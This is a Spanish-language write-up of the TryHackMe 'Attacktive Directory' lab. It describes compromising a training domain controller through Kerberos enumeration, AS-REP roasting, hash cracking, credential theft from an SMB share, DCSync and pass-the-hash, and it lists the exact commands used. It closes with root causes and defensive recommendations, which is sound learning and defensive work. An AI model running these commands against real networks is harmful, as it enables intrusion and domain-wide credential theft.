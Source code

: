 # Conclusiones – Attacktive Directory (TryHackMe)

## ✅ Resumen del compromiso
Se comprometió un **Domain Controller** de Active Directory (`AttacktiveDirectory.spookysec.local`) partiendo **sin credenciales** y aprovechando:
1. **Enumeración Kerberos** para descubrir usuarios válidos.
2. **AS-REP Roasting** sobre un usuario vulnerable (`svc-admin`).
3. **Crack del hash** AS-REP para obtener la contraseña en claro.
4. Acceso a **SMB** y lectura de `backup_credentials.txt` en el share `backup`.
5. Uso de esas credenciales para ejecutar **DCSync** con `secretsdump.py` y volcar **hashes del dominio**.
6. **Pass-the-Hash** sobre `Administrator` con `psexec.py` → shell **SYSTEM**.
7. Exfiltración de **flags** desde los escritorios de `svc-admin`, `backup` y `Administrator`.

---

## 🔗 Cadena de ataque (Kill Chain)
- **Descubrimiento/Recon**: `nmap` revela Kerberos/LDAP/SMB/RPC/DNS/RDP/WinRM → DC clásico.
- **Enumeración**:
  - `kerbrute userenum` → usuarios válidos (james, robin, svc-admin, etc.).
  - `enum4linux` → SID de dominio y grupos estándar (sin grandes fugas).
- **Obtención de credenciales**:
  - `GetNPUsers.py` → `$krb5asrep$23$` para **svc-admin** (sin preauth).
  - `john` → contraseña `management2005`.
- **Movimiento lateral / Acceso a datos**:
  - `smbclient` → share **backup** → `backup_credentials.txt` (Base64).
  - Decodificación → credenciales de **backup**.
- **Dominio**:
  - `secretsdump.py -just-dc` con **backup** → hashes NTLM (incl. `Administrator`) y claves Kerberos.
  - `psexec.py` con **Pass-the-Hash** → **NT AUTHORITY\SYSTEM** en el DC.
- **Objetivos**:
  - Lectura de flags en `Desktop` de `svc-admin`, `backup`, `Administrator`.

---

## 🧰 Herramientas clave y comandos usados
- **Nmap**
  - `nmap -Pn -sV -sC -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985 spookysec.local`
- **Kerberos**
  - `kerbrute userenum --dc 10.10.19.151 -d spookysec.local users.txt`
  - `GetNPUsers.py spookysec.local/svc-admin -no-pass`
- **Cracking**
  - `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
- **SMB**
  - `smbclient -L \\10.10.19.151\\ -U svc-admin`
  - `smbclient \\10.10.19.151\\backup -U svc-admin` → `get backup_credentials.txt`
- **DCSync / NTDS**
  - `secretsdump.py spookysec.local/backup:'<PASS>'@10.10.19.151 -just-dc`
- **PTH / Shell**
  - `psexec.py spookysec.local/Administrator@10.10.19.151 -hashes :<NTLMHASH>`

---

## 🔍 Hallazgos de seguridad (Root Causes)
1. **Usuario Kerberos sin preautenticación** (`svc-admin` con *DONT_REQUIRE_PREAUTH*).
2. **Credenciales sensibles en texto (Base64)** dentro de un **share de backup** accesible.
3. **Cuenta `backup` con privilegios de replicación** (permite **DCSync**).
4. **Exposición de múltiples servicios de AD** a toda la red (Kerberos/LDAP/SMB/WinRM/RDP) sin segmentación.

---

## 🛡️ Recomendaciones defensivas
- **Habilitar preautenticación Kerberos** en *todas* las cuentas de usuario/servicio.
- **Rotar y endurecer contraseñas**; aplicar **políticas de complejidad** y **bloqueo**.
- **Eliminar credenciales en texto** de shares (`backup`, `NETLOGON`, `SYSVOL`); revisar GPO de logon scripts.
- **Principio de mínimo privilegio**: retirar permisos de **replicación** a cuentas no administrativas (evitar DCSync).
- **Auditar SPNs y cuentas de servicio**; usar **gMSA** donde sea posible.
- **Segmentación de red** y **firewall**: restringir 88/389/445/5985/3389 a administradores y hosts autorizados.
- **Monitoreo y alertas**:
  - Eventos de **AS-REP** anómalos y fallos Kerberos.
  - Llamadas **DRSUAPI** inusuales (indicadores de DCSync).
  - Creación de servicios remotos (`RemComSvc`/`PSEXESVC`) y actividades por SMB/WMI.

---

## 📎 Evidencias recopiladas
- `enum/nmap.txt`, `enum/kerbrute_valid.txt`
- `enum/asrep_hashes.txt` + resultado de `john`
- `loot/backup_credentials.txt` (y su decodificado)
- `loot/secretsdump_justdc.txt`
- Capturas: sesión `psexec.py` y lectura de flags

---

## 🧠 Lecciones aprendidas
- En AD, **una mala configuración Kerberos** + **fuga mínima** (texto/base64) + **permisos excesivos** escalan a **compromiso total de dominio** en pocos pasos.
- Centralizar y **automatizar la recolección de evidencias** reduce el tiempo de análisis y mejora el reporte.

---
